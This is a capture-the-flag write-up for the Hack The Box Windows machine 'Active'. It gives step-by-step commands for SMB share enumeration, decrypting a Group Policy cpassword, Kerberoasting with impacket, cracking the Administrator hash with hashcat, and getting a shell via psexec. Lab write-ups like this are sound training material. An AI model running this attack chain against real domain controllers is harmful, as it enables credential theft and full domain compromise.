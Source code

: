 ```yaml
---
title: "HTB : Active"
permalink: /writeups/active
location: default
---
```


# Access

**Machine Information**

	IP : 10.10.10.100
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.100 -- -sC -sV
```

This should reveal a number of services including `kerberos`, `ldap`, and `smb`.

```
PORT      STATE SERVICE       REASON  VERSION
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-07-03 06:41:56Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5722/tcp  open  msrpc         syn-ack Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49152/tcp open  msrpc         syn-ack Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack Microsoft Windows RPC
49170/tcp open  msrpc         syn-ack Microsoft Windows RPC
49171/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled and required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40109/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 49509/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38631/udp): CLEAN (Timeout)
|   Check 4 (port 2846/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2024-07-03T06:42:54
|_  start_date: 2024-07-03T06:39:28
|_clock-skew: 0s
```

### Getting a Foothold

**SMB**

Running `smbmap` shows that there is one share with read-only access as an anonymous user.

```
smbmap -H 10.10.10.100
```

After manually exploring the file system we find a `Groups.xml` file in the following location:

```
\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
```

Open the file to find a `cpassword` for the user `active.htb\SVC_TGS`.

This is an AES encrypted password but in 2014 Microsoft published the key on MSDN which allowed for all encrypted passwords to be decrypted. Unless these passwords were changed they are still vulnerable to decryption. Using `gpp-decrypt` we can get the plaintext password.

```
gpp-decrypt "PASSWORD HASH"
```

**Kerberoasting**

Using these credentials we can attempt to grab hashes using `impacket-GetUserSPNs`.

```
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS
```

**Hashcat**

We retrieved the hash for the Administrator user. We now attempt to crack it using `hashcat`.

```
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt
```

This successfully cracks these hash revealing the password for the Administrator user. With Administrator credentials we can connect to the target system using `impacket-psexec`.

```
impacket-psexec active.htb/administrator@10.10.10.100
```

With shell access grab the user flag.

```
type C:\Users\SVC_TGS\Desktop\user.txt
```

### Privilege Escalation

No privilege escalation is required so we can grab the root flag as well.

```
type C:\Users\Administrator\Desktop\root.txt
```
